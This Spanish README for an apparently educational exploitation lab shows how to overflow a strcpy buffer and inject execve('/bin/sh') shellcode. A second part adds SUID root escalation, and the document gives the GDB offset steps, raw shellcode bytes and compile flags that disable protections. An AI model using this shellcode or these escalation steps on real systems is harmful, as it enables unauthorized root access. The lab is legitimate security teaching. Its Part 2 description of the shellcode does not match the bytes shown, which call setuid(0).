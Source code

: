 # Buffer Overflow Exploitation

Este proyecto muestra cómo explotar una vulnerabilidad de tipo **stack buffer overflow** para ejecutar código arbitrario, obteniendo una shell local y escalando privilegios con el bit **SUID** activado.

---

## Contenido del proyecto

- `vulnerable.c`: binario vulnerable que copia la entrada del usuario a un buffer sin control de límites.
- `exploit.c`: código que construye un payload para ejecutar una shell local (`/bin/sh`).
- `exploit_suid.c`: versión del exploit adaptada para binarios con el bit SUID activado.
- `exploit.asm`: shellcode necesario para lanzar `/bin/sh` sin escalada de privilegios.
- `exploit_suid.asm`: shellcode que primero ejecuta `setuid(geteuid())` y luego lanza la shell.

---

## Parte 1: Ejecución de shell local

### Análisis del binario vulnerable

El binario vulnerable contiene el siguiente código:

```c
void function(char *input) {
    char buffer[64];
    strcpy(buffer, input); // ¡Sin comprobación de límites!
}
```

La vulnerabilidad está en el uso de `strcpy`, que copia sin verificar tamaño.

Esto permite que un atacante sobrescriba la dirección de retorno (RIP) en la pila
al introducir más de 64 bytes, redirigiendo el flujo de ejecución hacia código 
arbitrario como una shellcode.

---

### Cálculo del offset

Para determinar el desplazamiento hasta RIP, iniciamos GDB:

```bash
gdb ./vulnerable
```

Y colocamos un breakpoint justo después del `strcpy` y ejecutamos con diferentes longitudes (mayor que 64 y multiplo de 8) hasta dar con la que sobreescriba el rip, en este caso es 80:

```bash
(gdb) b *main+36
(gdb) run $(python3 -c 'print("A"*80)')
```

Cuando el programa se detenga, usamos el siguiente comando para ver el contenido del `rip`:

```bash
(gdb) info frame
```

Veremos `rip = 0x4141414141414141`, lo que indica que las 'A' lo han sobrescrito.
Así confirmamos que el offset es de 72 bytes (80 - 8 de dirección de retorno).

Tambien se puede visualizar la pila con:

```bash
(gdb) x/20x $rsp + 16
0x7fffffffef7d: 41414141 ...
```

---

### Dirección de retorno al buffer

Para ejecutar shellcode, debemos redirigir el flujo a la dirección del buffer.
Es importante obtener esta dirección desde `gdb ./exploit` y no desde `gdb ./vulnerable`.

Esto se debe a que el binario `exploit` reserva y posiciona el buffer en memoria,
y la dirección cambia dependiendo de qué ejecutable lo contenga.

```bash
gdb ./exploit
```

Coloca breakpoints al inicio del código para inspeccionarlo y ejecútalo:

```bash
(gdb) b main
(gdb) r
```

Luego, avanza paso a paso con `next` (`n`) hasta entrar en la ejecución de `vulnerable.c`, donde tendrás otro breakpoint por comenzar el `main` de ese programa.

En ese punto deberías de comprobar que se han pasado 2 argumentos. El segundo argumento muestra la direccion de inicio del buffer:

```bash
(gdb) print argc
$1 = 2
(gdb) print argv[1]
$2 = 0x7fffffffef7d ...
```

Usaremos esa dirección como la nueva dirección de retorno al final del payload.

---

### Shellcode utilizada

La shellcode realiza una llamada directa a `execve("/bin/sh", NULL, NULL)`:

```asm
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Estructura del payload

El payload está compuesto por:

1. NOP sled: una secuencia de bytes `\x90` para aumentar tolerancia al salto.
2. Shellcode: las instrucciones que ejecutan `/bin/sh`.
3. Dirección de retorno: apunta al NOP sled o directamente al shellcode.

Esta estructura es robusta, ya que incluso si el salto no es exacto,
caerá en la zona NOP y terminará ejecutando la shellcode igualmente.

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit exploit.c
```

---

### Ejecucion

```bash
./exploit
$
```

A partir de ahora, tenemos acceso a una terminal de la victima, que se puede comprobar haciendo:

```bash
$ whoami
user
```

---

## Parte 2: Explotación de binario con bit SUID

En esta fase se explota un binario con el bit SUID activado (propiedad de root), lo que permite heredar sus privilegios al ejecutar la shellcode.

### Preparación del binario

```bash
sudo chown root:root vulnerable
sudo chmod u+s vulnerable
```

---

### Shellcode extendido

La shellcode utilizada añade una llamada a `setuid(geteuid())` justo antes de ejecutar `/bin/sh`. Esto garantiza que la shell heredada mantenga los privilegios elevados otorgados por el bit SUID.

```asm
// -- setuid(geteuid()) --
"\x48\x31\xff"                              // xor    rdi, rdi
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x69"                                  // mov    al, 0x69 (setuid)
"\x0f\x05"                                  // syscall
// -- execve("/bin/sh", NULL, NULL) -- ya utilizada en la parte 1 --
"\x48\x31\xc0"                              // xor    rax, rax
"\xb0\x3b"                                  // mov    al, 0x3b
"\x48\x31\xff"                              // xor    rdi, rdi
"\x57"                                      // push   rdi
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68"  // mov    rdi, "//bin/sh"
"\x57"                                      // push   rdi
"\x48\x89\xe7"                              // mov    rdi, rsp
"\x48\x31\xf6"                              // xor    rsi, rsi
"\x48\x31\xd2"                              // xor    rdx, rdx
"\x0f\x05"                                  // syscall
```

---

### Compilación

```bash
gcc -fno-stack-protector -z execstack -no-pie -fno-pic -g -o vulnerable vulnerable.c
gcc -o exploit_suid exploit_suid.c
```

---

### Ejecución

```bash
./exploit
#
```

A partir de ahora tenemos acceso a una terminal de la victima con permisos de root, que se puede comprobar haciendo:

```bash
# whoami
root
```

---

## Archivos adicionales

- **`exploit.asm`**: contiene exclusivamente el shellcode de ejecución de `/bin/sh` mediante `execve`, sin escalada de privilegios.
- **`exploit_suid.asm`**: contiene la variante del shellcode que incluye la syscall `setuid(geteuid())` seguida de `execve("/bin/sh", NULL, NULL)` para asegurar la herencia de privilegios cuando el binario explotado tiene el bit SUID activado.

---

## Autor

**Julen Casajús**  
[GitHub Profile](https://github.com/JulenCasajus)
